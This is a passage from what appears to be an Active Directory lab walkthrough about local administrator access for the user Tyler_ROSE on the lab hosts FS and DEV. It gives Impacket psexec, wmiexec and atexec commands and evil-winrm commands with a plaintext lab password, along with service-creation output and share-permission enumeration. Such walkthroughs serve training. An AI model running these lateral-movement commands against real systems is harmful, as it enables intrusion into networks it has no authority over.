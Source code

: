 **Q15**: Which machine (aside from `DEV`) is `Tyler_ROSE` a local administrator on?

### 3.1. Local Administrator

In the lab environment, `FS` has been configured to disable Windows Defender - as such you do not have to worry about tools being blocked by the AV. You can use your local administrator access to obtain a shell using many of the tools exposed by Impacket:

```
psexec.py 'Tyler_ROSE':'OyShGdq86AIG8RzdaAS5L'@fs.async.local
wmiexec.py 'Tyler_ROSE':'OyShGdq86AIG8RzdaAS5L'@fs.async.local
atexec.py 'Tyler_ROSE':'OyShGdq86AIG8RzdaAS5L'@fs.async.local whoami
evil-winrm -i 'fs.async.local' -u 'Tyler_ROSE' -p 'OyShGdq86AIG8RzdaAS5L' --ssl
```

You will notice that some tools (such as `psexec.py`) will not work on `DEV` as it is configured with Windows Defender enabled. It is not possible to disable Windows Defender on `DEV`, unless you disable it via the GUI as Tamper Protection is enabled.

```
psexec.py 'Tyler_ROSE':'OyShGdq86AIG8RzdaAS5L'@dev.async.local
Impacket v0.13.0.dev0+20250422.104055.27bebb13 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on dev.async.local.....
[*] Found writable share ADMIN$
[*] Uploading file gLXJdsQD.exe
[*] Opening SVCManager on dev.async.local.....
[*] Creating service WswJ on dev.async.local.....
[*] Starting service WswJ.....
...
# hangs here
...
```

Once we are on `FS`, we can see that the mapped shares are on disk at `C:\shares`. Additionally, we can confirm that `async\Service Accounts` have full access to the `svc_home$` share located at `C:\shares\svc_home$`

```
*Evil-WinRM* PS C:\shares> Get-SmbShareAccess -Name "svc_home$"

Name      ScopeName AccountName            AccessControlType AccessRight
----      --------- -----------            ----------------- -----------
svc_home$ *         async\Service Accounts Allow             Full


*Evil-WinRM* PS C:\shares> Get-SmbShare -Name "svc_home$"

Name      ScopeName Path                Description
----      --------- ----                -----------
svc_home$ *         C:\shares\svc_home$ Common share for service accounts.
```

And, internally within the `svc_home$` share, we can see that all users have the same permissions.


[fs.async.local]: PS C:\Users\Tyler_ROSE\Documents> whoami